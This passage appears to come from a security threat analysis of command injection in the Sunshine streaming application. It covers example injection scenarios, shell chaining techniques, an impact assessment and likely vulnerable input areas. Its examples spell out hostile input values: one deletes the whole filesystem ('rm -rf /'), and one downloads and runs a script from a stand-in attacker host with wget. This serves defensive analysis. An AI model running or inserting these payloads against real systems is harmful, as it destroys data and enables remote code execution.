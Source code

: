 Let's expand on the provided example with more concrete scenarios:

*   **Host Addition - Malicious Hostname:** A user attempts to add a new streaming host. Instead of a legitimate hostname, they enter: ``; rm -rf / #`. This input could be used in a command like `ping <user_input>`. The resulting command would be `ping ; rm -rf / #`, which would first attempt to ping (likely failing) and then execute the devastating `rm -rf /` command, attempting to delete all files on the system.
*   **Network Configuration - Malicious Port:**  A user tries to configure a port forwarding rule. They enter a port number followed by a malicious command: `8080; wget http://attacker.com/malware.sh -O /tmp/malware.sh && chmod +x /tmp/malware.sh && /tmp/malware.sh`. If this input is used in a command like `iptables -A INPUT -p tcp --dport <user_input> -j ACCEPT`, the attacker could inject commands to download and execute a malicious script.
*   **Media Library Scan - Malicious Filename:**  If the application scans for media files based on user-provided paths, an attacker could provide a path like `/tmp/`; touch hacked.txt #. This could lead to the execution of `touch hacked.txt` in the `/tmp/` directory. While seemingly benign, this demonstrates the ability to execute arbitrary commands.

**4. Technical Details of Exploitation:**

Attackers exploit command injection by leveraging command separators and operators within the operating system's shell. Common techniques include:

*   **Command Chaining:** Using operators like `;`, `&&`, or `||` to execute multiple commands sequentially.
*   **Command Substitution:** Using backticks `` `command` `` or `$()` to execute a command and embed its output into another command.
*   **Input Redirection:** Using operators like `>`, `>>`, or `<` to redirect input and output of commands.
*   **Piping:** Using the `|` operator to pipe the output of one command as input to another.

**5. Impact Assessment (Detailed):**

The impact of a successful command injection attack on Sunshine is catastrophic:

*   **Complete System Compromise:**  Attackers gain the ability to execute arbitrary commands with the privileges of the Sunshine process, potentially leading to full control of the host system.
*   **Data Breach:** Sensitive data stored on the server, including user credentials, configuration files, and potentially media files, can be accessed and exfiltrated.
*   **Malware Installation:** Attackers can install malware, such as backdoors, rootkits, or cryptocurrency miners, to maintain persistent access and further compromise the system.
*   **Denial of Service:** Attackers can intentionally crash the Sunshine application or overload the server, rendering it unavailable to legitimate users.
*   **Reputational Damage:** A successful attack can severely damage the reputation of the application and the organization deploying it.
*   **Legal and Regulatory Consequences:** Depending on the data accessed and the jurisdiction, a breach could lead to legal penalties and regulatory fines.
*   **Supply Chain Attacks:** If the compromised Sunshine instance is part of a larger infrastructure, the attacker could use it as a launching pad for attacks on other systems.

**6. Sunshine-Specific Considerations and Potential Vulnerable Areas:**

Based on the nature of Sunshine as a streaming and remote desktop application, the following areas are particularly susceptible:

*   **Web Interface Input Fields:** Any input field in the web interface that is used to construct system commands is a potential vulnerability. This includes fields for hostnames, IP addresses, ports, file paths, and potentially even configuration settings.
*   **API Endpoints:** If Sunshine exposes APIs that take user input and use it in system commands, these endpoints are also vulnerable.
*   **Configuration Files:** While not directly user input, if the web interface allows users to modify configuration files that are later used to execute system commands, this could indirectly lead to command injection.
